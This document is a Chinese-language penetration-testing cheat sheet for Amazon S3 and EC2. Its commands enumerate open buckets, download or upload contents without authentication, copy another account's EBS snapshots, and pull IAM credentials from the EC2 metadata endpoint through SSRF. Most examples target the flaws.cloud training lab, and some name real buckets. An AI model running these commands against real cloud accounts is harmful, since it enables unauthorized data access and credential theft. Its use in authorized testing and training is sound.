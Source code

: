 # 亚马逊S3存储桶AWS

## 摘要

- AWS配置
- 打开存储桶
- 基本测试
  - 列出文件
  - 将文件移动到存储桶中
  - 下载所有内容
  - 检查存储桶磁盘大小
- AWS - 提取备份
- 存储桶中的敏感数据

## AWS配置

先决条件，至少需要安装awscli

```bash
sudo apt install awscli
```

您可以在此处获取您的凭据 https://console.aws.amazon.com/iam/home?#/security_credential
但您需要一个AWS账户，免费试用账户：https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free_np/

```javascript
aws configure
AWSAccessKeyId=[在此处输入您的密钥]
AWSSecretKey=[在此处输入您的密钥]
aws configure --profile nameofprofile
```

然后您可以在aws命令中使用*--profile nameofprofile*。

或者，您可以使用环境变量而不是创建配置文件。

```bash
export AWS_ACCESS_KEY_ID=ASIAZ[...]PODP56
export AWS_SECRET_ACCESS_KEY=fPk/Gya[...]4/j5bSuhDQ
export AWS_SESSION_TOKEN=FQoGZXIvYXdzE[...]8aOK4QU=
```

## 打开存储桶

默认情况下，亚马逊存储桶的名称类似于 http://s3.amazonaws.com/[bucket_name]/，如果您知道它们的名称，可以浏览开放的存储桶

```bash
http://s3.amazonaws.com/[bucket_name]/
http://[bucket_name].s3.amazonaws.com/
http://flaws.cloud.s3.amazonaws.com/
https://buckets.grayhatwarfare.com/
```

如果启用了列表功能，它们的名称也会被列出。

```xml
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
<Name>adobe-REDACTED-REDACTED-REDACTED</Name>
```

或者，您可以使用 `%C0` 提取内部站点S3存储桶的名称。（技巧来自 https://twitter.com/0xmdv/status/1065581916437585920）

```xml
http://example.com/resources/id%C0

例如：http://redacted/avatar/123%C0
```

## 基本测试

### 列出文件

```bash
aws s3 ls s3://targetbucket --no-sign-request --region insert-region-here
aws s3 ls s3://flaws.cloud/ --no-sign-request --region us-west-2
```

您可以使用dig和nslookup获取区域

```bash
$ dig flaws.cloud
;; ANSWER SECTION:
flaws.cloud.    5    IN    A    52.218.192.11

$ nslookup 52.218.192.11
Non-authoritative answer:
11.192.218.52.in-addr.arpa name = s3-website-us-west-2.amazonaws.com.
```

### 将文件移动到存储桶中

```bash
aws s3 cp local.txt s3://some-bucket/remote.txt --acl authenticated-read
aws s3 cp login.html s3://$bucketName --grants read=uri=http://acs.amazonaws.com/groups/global/AllUsers
aws s3 mv test.txt s3://hackerone.marketing
失败："move failed: ./test.txt to s3://hackerone.marketing/test.txt A client error (AccessDenied) occurred when calling the PutObject operation: Access Denied."

aws s3 mv test.txt s3://hackerone.files
成功："move: ./test.txt to s3://hackerone.files/test.txt"
```

### 下载所有内容

```powershell
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2
```

### 检查存储桶磁盘大小

使用 `--no-sign` 进行未经身份验证的检查。

```powershell
aws s3 ls s3://<bucketname> --recursive  | grep -v -E "(Bucket: |Prefix: |LastWriteTime|^$|--)" | awk 'BEGIN {total=0}{total+=$3}END{print total/1024/1024" MB"}'
```

## AWS - 提取备份

```powershell
$ aws --profile flaws sts get-caller-identity
"Account": "XXXX26262029",


$ aws --profile profile_name ec2 describe-snapshots
$ aws --profile flaws ec2 describe-snapshots --owner-id XXXX26262029 --region us-west-2
"SnapshotId": "snap-XXXX342abd1bdcb89",

使用快照创建卷
$ aws --profile swk ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-XXXX342abd1bdcb89
在Aws控制台 -> EC2 -> 新建Ubuntu
$ chmod 400 YOUR_KEY.pem
$ ssh -i YOUR_KEY.pem  ubuntu@ec2-XXX-XXX-XXX-XXX.us-east-2.compute.amazonaws.com

挂载卷
$ lsblk
$ sudo file -s /dev/xvda1
$ sudo mount /dev/xvda1 /mnt
```

## 存储桶中的敏感数据

亚马逊暴露了一个内部服务，每个EC2实例都可以查询关于主机的实例元数据。如果您发现一个在EC2上运行的SSRF漏洞，请尝试请求：

```powershell
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_USER_ROLE_HERE 将返回AccessKeyID、SecretAccessKey和Token
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
```

例如，通过代理：http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/

## 参考资料

- 有1951个亚马逊S3存储桶存在漏洞 - 2013年3月27日 - Rapid7 Willis
- Bug Bounty调查 - AWS基本测试
- 基于AWS漏洞的挑战 - Scott Piper的Summit Route
- 基于AWS漏洞的挑战2 - Scott Piper的Summit Route
- Guardzilla摄像头硬编码AWS凭据 ~~- 0dayallday.org~~ - blackmarble.sh
- AWS渗透测试第1部分. S3存储桶 - VirtueSecurity
- AWS渗透测试第2部分. S3, IAM, EC2 - VirtueSecurity
- 对Capital One黑客事件的技术分析 - CloudSploit - 2019年8月2日
